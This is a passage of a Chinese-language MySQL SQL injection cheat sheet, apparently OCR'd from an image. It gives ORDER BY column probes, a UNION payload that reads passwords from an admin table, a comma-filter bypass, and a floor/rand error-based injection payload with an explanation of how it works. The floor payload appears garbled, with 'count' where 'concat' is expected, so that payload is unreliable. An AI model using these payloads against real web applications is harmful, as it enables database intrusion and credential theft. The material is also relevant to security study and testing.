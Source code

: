 **`order by 10 #`**

**`order by 5 #`**

**`order by 2 #`**

**....**

**基本用法**

**`union select 1,password,3 from admin`**

**过滤了逗号的union注入**

**`select 1,2,3 union select * from (select version())a join (select database())b join (select database())c;`**

#### 报错注入

**利用数据库报错来显示数据的注入方式经常会在入侵中利用到，这种方法有一点局限性，需要页面有错误回显**

**分类**

> **MYSQL报错注入大体可分为以下几类：**
>
> - **BIGINT等数据类型溢出**
> - **xpath语法错误**
> - **concat+rand()+group_by()导致主键重复**
> - **空间数据类型函数错误**

**floor**

**注入语句**

**`?id=1 or (select 8627 from (select count(*),count(0x70307e,(select user()),0x7e7030,floor(rand(0)*2))x from information_schema.plugins group by x)a)`**

- **floor：函数只返回整数部分，小数部分舍弃**
- **round：函数四舍五入，大于0.5的部分进位，不到则舍弃**

**注入原理**

**目前比较常见的几种报错注入方法都是利用了mysql某些不能称为bug的bug来实现的**

**下面就以 `rand()` 函数来进行说明，mysql的官方文档中对`rand()`函数有特殊的说明：**

**`rand() in a where clause is re-evaluated every time the where is executed. You cannot use a column with rand() values in an order by clause,because order by would evaluate the column mltiple times. However, you can retrieve rows in random order like this;`**

**官方文档中的意思是：在`where` 语句中，`where`每执行一次，`rand()`函数就会被计算一次。`rand()`不能作为 `order by` 的条件字段，同理也不能作为 `group by` 的条件字段**

**因此在mysql中，可以构造一个值不确定而有可重复的字段作为 `group by` 的条件字段，这时就可以报出类似于 `Duplicate entry '...' for key 'group_key'`的错误**

**UpdateXml(有长度限制，最长32位)**

**MySQL 5.1.5版本中添加了对XML文档进行查询和修改的函数，分别是 `ExtractValue()` 和 `UpdateXML()`，因此在mysql小于5.1.5中不能用`ExtractValue` 和 `UpdateXML`进行报错注入**
